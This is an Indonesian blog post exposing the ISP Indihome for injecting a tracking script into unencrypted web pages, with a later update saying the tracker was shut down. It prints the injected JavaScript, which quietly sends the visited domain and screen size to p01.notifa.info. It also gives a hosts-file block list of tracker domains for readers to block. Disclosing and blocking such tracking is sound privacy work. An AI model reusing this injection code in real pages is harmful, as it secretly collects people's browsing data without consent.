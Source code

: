 ```yaml
---
published: false
---
```

Indihome adalah salah satu penyedia layanan internet terbesar di Indonesia. Akhir 2019 setidaknya mereka memiliki 7 juta pelanggan yang tersebar di seluruh Indonesia. Tahun 2020 ini mereka menargetkan memiliki 8,3 juta pelanggan. Total pendapatan perusahaan BUMN ini juga fantastis, setiap tahunnya 18 Triliun. Dibalik semua pencapaian itu, Indihome selama ini dikenal sebagai penyedia layanan internet dengan kualitas layanan yang paling banyak mendapatkan keluhan. Keluhan itu sendiri sering kita lihat di berbagai media sosial yang dibagikan oleh para pelanggan mereka.

Saya sendiri juga menggunakan Indihome untuk internet di rumah, karena tak ada pilihan lain. Saat ini rumah saya hanya terjangkau layanan milik Indihome. Setelah menjadi pelanggan Indihome sekian tahun, saya merasakan berbagai macam gangguan yang saya dapatkan selama berlangganan. Setidaknya ketika tulisan ini ditulis, saya akan menjabarkan gangguan yang saya dapatkan yang menurut saya adalah perbuatan yang melanggar hukum. /

Tracker Untuk Mencuri Browsing History Pengguna
Saya menggunakan kata "mencuri" karena mengambil sesuatu tanpa izin sangat tepat disebut mencuri. Selain ini dilakukan secara diam-diam, kebanyakan orang awam pasti tidak menyadari hal ini. Jika kamu berlangganan Indihome di rumah, ketika kamu mengunjungi sebuah website yang belum menggunakan SSL atau tepatnya masih menggunakan http belum https, Indihome akan mengambil browsing history milik kamu ketika kamu mengunjungi website tersebut. Penjelasannya dengan contoh kasus sebagai berikut :

Saya sedang mencari sebuah tutorial di Google menggunakan kata kunci "penyebab bulu kucing kusam", setelah itu google menampilkan artikel berikut ini http://www.petnyaku.com/health/dari-kondisi-bulu-bisa-diketahui-kucing-memiliki-masalah-kesehatan/, ketika saya mengunjungi website tersebut, karena belum menggunakan SSL (masih http) Indihome kemudian bisa menyisipkan sebuah script yang berguna untuk mencuri browsing history milik kita. Ketika kamu view-source website yang kamu kunjungi tersebut, kita akan menemukan script seperti berikut ini di bagian paling bawah :

<script type="text/javascript">if (self==top) {function netbro_cache_analytics(fn, callback) {setTimeout(function() {fn();callback();}, 0);}function sync(fn) {fn();}function requestCfs(){var idc_glo_url = (location.protocol=="https:" ? "https://" : "http://");var idc_glo_r = Math.floor(Math.random()*99999999999);var url = idc_glo_url+ "p01.notifa.info/3fsmd3/request" + "?id=1" + "&enc=9UwkxLgY9" + "&params=" + "4TtHaUQnUEiP6K%2fc5C582JQuX3gzRncX4P8RMEi6KILNdTu4aXhNvLHVzbE%2fcmJIngqm1SZDgEuphLBm%2f%2f4J1tqyuJYFIkMo%2fASaCza7wmTnLDVhjapRu7oWDCCMdyke7%2bhuxVZH51%2fuUDPDOXYbO3OvmkgHxYCfjjwMLv7OAk2mniAERkIHP0HfTLqo6QXe3pw52b5QLmRu4fOIgzvm88MQ6IJOBTOIPNiJCOi6Chsi9XyFgUfHfgBC17rl8mNyhSAjcshFZFnBd%2ba9uZTBebbZLfKrTdu8upidxRX7Aa3SKTNOaaXkLXkbfgIcB1BZe1i%2f35C0ffGwbfZQzmIjYUmbKvNvzknUAoNu40XCBZM9wBW721NIq4fB0g%2fcyvrUfF3XKmEhpgjeDdA1BzLdrOJL5NFPM%2bsCXDRxhkd4NSkSlNY7H%2bE9qQGWSapNJb3lYnA%2f5RDQqkvOil6xgADRcXjy2bSgJgLgfXC3mH9QMnKPPXBB%2b98E%2bFrOLIh1WtFm2vLLLq6zXs4lMXN%2bi45r%2bTzjQMoMxW5kHIYK%2f8jAJI%2fn%2fx7JgQu56qEc0fTuMy%2bAFXUfdQhfAznNQmIkZE6h9G8Jzze%2fGKPccenLrp3aPzilW%2bjvA%2bb6YWYD4q%2bVNk2fOlg6GYynzBrTpzexxI6BXqmN18k4ZShMLXrN85aeqKg%3d" + "&idc_r="+idc_glo_r + "&domain="+document.domain + "&sw="+screen.width+"&sh="+screen.height;var bsa = document.createElement('script');bsa.type = 'text/javascript';bsa.async = true;bsa.src = url;(document.getElementsByTagName('head')[0]||document.getElementsByTagName('body')[0]).appendChild(bsa);}netbro_cache_analytics(requestCfs, function(){});};</script>
Script ini berguna untuk mengirimkan sebuah request ke server milik Indihome. Contoh request nya adalah sebagai berikut :

Derita Pelanggan Indihome, Sudah Bayar Malah Dijadikan Produk Iklan
Jika dilihat dalam versi penuhnya, maka request tersebut akan terlihat seperti ini :

http://p01.notifa.info/3fsmd3/request?id=1&enc=9UwkxLgY9&params=4TtHaUQnUEiP6K%2fc5C582JQuX3gzRncX4P8RMEi6KIKtVIeBXVsA20nWKYcnall52ezULp%2fmcTfNfFan0cuYiikcLCpeACUzm1BNnnttoND4zO0lWiBKmHrmr%2bi0d90xJX8mWy7ZHbcj%2fnUElz3UxVDGSMsk9D8IFPr9ZDr6yQpVB2XSlCgjPMNQqcsjqDmJdgB5HOfuQqM4QVdagHG06ugiNYOHvvZcrSqDU8hd%2bXAoWDzREWfoBmvPR8TGobmg2mbp3lMaVRLp8jIL4%2fRQZGXSBrQ9CvV4%2f2IHJYWvdhQC3l%2fzv%2fvT5Aq8kWuJ4LweWoL0DYhLQJ1Rwm5J8J%2btwOOdma5pOSegNhOqAvJjvR5YJ0aaAgNKadpheMvCbF2yLm%2fn2iWdduS7%2bimKg%2bS5CGCTi3Kpo9Ng24YpdQdyN%2fzLG1ipRo38TJ8ongnstvlpR9Kj9hqpSEqwka%2fxjR%2btvRWQjT19zs5MsP3xXji9qFgAIxM6CBoQbxS21AYbuhVE3PJ8TpV53ccq6LpRa%2f5d%2bRgKoCygtm%2bH5pEvgrCgPtElofFWiLUs3b6NUtmI94nuv%2fAjnfYGtj837edhisK0daWSvke8IjzwChxw2%2bJETgU8e5qqlLCRaHOuJcb1y%2fni8v%2bUdts%2fbjPfa0xlCPa2%2bm%2bKfkojGb9dFiiXan3VK3w%3d&idc_r=61826754674&domain=www.petnyaku.com&sw=2304&sh=1296
Beberapa parameter diatas berguna untuk mengambil browsing history dan juga resolusi layar perangkat yang kamu gunakan.

Website yang kamu kunjungi
domain=www.petnyaku.com
Resolusi layar
sw=2304&sh=1296
Jadi setiap kali kamu mengunjungi sebuah website yang belum menggunakan SSL (masih http) maka Indihome dengan leluasa akan mengambil data website yang kamu kunjungi tersebut.

Dibalik p01.notifa.info
Karena saya merasa cukup terganggu da juga penasaran, saya kemudian mencari tau apa yang ada dibalik website tracker milik Indihome ini hanya bermodalkan Google. Kemudian saya mendapatkan 2 link berikut :

Derita Pelanggan Indihome, Sudah Bayar Malah Dijadikan Produk Iklan
Ketika saya mengakses http://p01.notifa.info/3fsmd3/wsadmin/auth/login, halaman tersebut merupakan tempat untuk login internal yang mungkin digunakan content management, tampilannya adalah sebagai berikut :

Derita Pelanggan Indihome, Sudah Bayar Malah Dijadikan Produk Iklan
Lalu link berikutnya adalah http://p01.notifa.info/info/apc/ :

Derita Pelanggan Indihome, Sudah Bayar Malah Dijadikan Produk Iklan
Halaman ini lebih menarik karena berisi statistik dan juga struktur kode yang digunakan untuk website tracker ini. Pada tanggal 14 September 2020 03:00 WIB, pada tab status total hits mencapai angka 26,681,371,055 (26,6 miliar).

Derita Pelanggan Indihome, Sudah Bayar Malah Dijadikan Produk Iklan
Pada tanggal 15 September 2020, total hits mencapai angka 27,577,810,224 (27,5 miliar)

Derita Pelanggan Indihome, Sudah Bayar Malah Dijadikan Produk Iklan
Maka bisa disimpulkan, dalam waktu sehari website tracker milik Indihome tersebut mendapatkan 1 miliar hits. Lalu jika kita berpindah ke tab Visualise Partition, maka akan didapatkan tampilan seperti berikut. Susunan dibalik layar website tracker milik Indihome

Derita Pelanggan Indihome, Sudah Bayar Malah Dijadikan Produk Iklan
Sampai saat ini saya masih belum tau apa alasan Indihome melakukan ini terhadap para pelanggan mereka. Namun kita semua tahu bahwa data seperti browsing history selama ini adalah data yang laku dijual ke pengiklan.

Peraturan yang dilanggar
Menurut syarat dan ketentuan Indihome, pada point nomor 8, mengatur Larangan bagi Telkom yang berbunyi :

Telkom dilarang melakukan perubahan dalam bentuk apapun terhadap jaringan layanan IndiHome dan dilarang mengenakan sanksi kepada pelanggan kecuali sesuai dengan ketentuan Kontrak Berlangganan.

Saya kemudian mencoba mengkonsultasikan hal ini dengan salah satu peneliti di Tordillas, Ariehta Eleison Sembiring apakah ini termasuk perbuatan yang melanggar atau tidak.

"Pasal 32 ayat 1 UU ITE larang Indihome lakukan hal demikian" ujar Ariehta saat saya hubungi.

Hal ini sebelumnya sudah pernah diadukan ke BRTI oleh pengguna Twitter @antoitb, namun lucunya dari pihak Telkom mengatakan ini legal.


Pencegahan yang dapat dilakukan oleh pelanggan Indihome
Untuk terhindar atau memblokir tracker yang sangat menganggu ini dan gangguan lainnya, kamu bisa menambahkan records berikut yang bersumber dari abdilahrf. Untuk pengguna MacOS dan Linux, tambahkan pada file /etc/hosts sementara untuk pengguna Windows melalui /System32/drivers/etc/hosts :

#INDIHOME 
127.0.0.1 x-tags.net
127.0.0.1 a01.uadexchange.com
127.0.0.1 cdn.uzone.id
127.0.0.1 cdn3.uzone.id
127.0.0.1 cfs.uzone.id
127.0.0.1 csf.uzone.id
127.0.0.1 d01.notifa.info
127.0.0.1 d31qbv1cthcecs.cloudfront.net
127.0.0.1 d5nxst8fruw4z.cloudfront.net
127.0.0.1 expose.uzone.id
127.0.0.1 kendedes.uzone.id
127.0.0.1 mercusuar.uzone.id
127.0.0.1 p01.notifa.info
127.0.0.1 p02.notifa.info
127.0.0.1 p04.notifa.info
127.0.0.1 p03.notifa.info
127.0.0.1 p05.notifa.info
127.0.0.1 usearch.co.id
127.0.0.1 welcome.indihome.co.id
127.0.0.1 upoint.id
127.0.0.1 uzone.id
Selain itu alternatif yang bisa digunakan adalah selalu gunakan VPN ketika terhubung ke suatu layanan internet yang menggunakan Indihome. Jangan gunakan VPN gratis yang tersedia di Play Store ataupun App Store, karena data kamu juga akan diperjualbelikan oleh penyedia layanan VPN tersebut.

Saatnya Perubahan
Saya bukan orang pertama yang mengangkat masalah ini, sebelumnya banyak orang yang sudah menyampaikan keluhan untuk masalah yang sama namun sampai saat ini tidak ada perubahan. Yang kita semua inginkan adalah perubahan agar pihak Telkom menghentikan semua praktek yang sangat menganggu dan melanggar hak konsumen mereka sendiri. Oleh karena itu saya membuat petisi ini dan mengajak kamu semua untuk ikut terlibat dalam perubahan ini. Silakan berikan dukungan kamu dengan mengunjungi dan menandatangani petisi dibawah ini :

Kemenangan
Terima kasih yang sudah membantu untuk ikut meramaikan dan membuat masalah ini menjadi trending topic di Twitter. Website tracker milik IndiHome sepertinya juga sudah di-shutdown. Script yang selama ini selalu disisipkan juga sepertinya sekarang sudah tidak ada lagi.

Sekalipun kita sudah berhasil membuat perubahan, semoga ini sifatnya permanent dan bukan sementara. Tetap awasi dan jangan lengah. Sekali lagi terima kasih, kita berhasil :)

Derita Pelanggan Indihome, Sudah Bayar Malah Dijadikan Produk Iklan

Penutup
Sebagian dari kita mungkin pernah mendengar kalimat berikut :

If you're not paying for the the product, then you are the product.

Tapi ini kita udah bayar kok masih dijadikan produk?

Salam,

Teguh Aprianto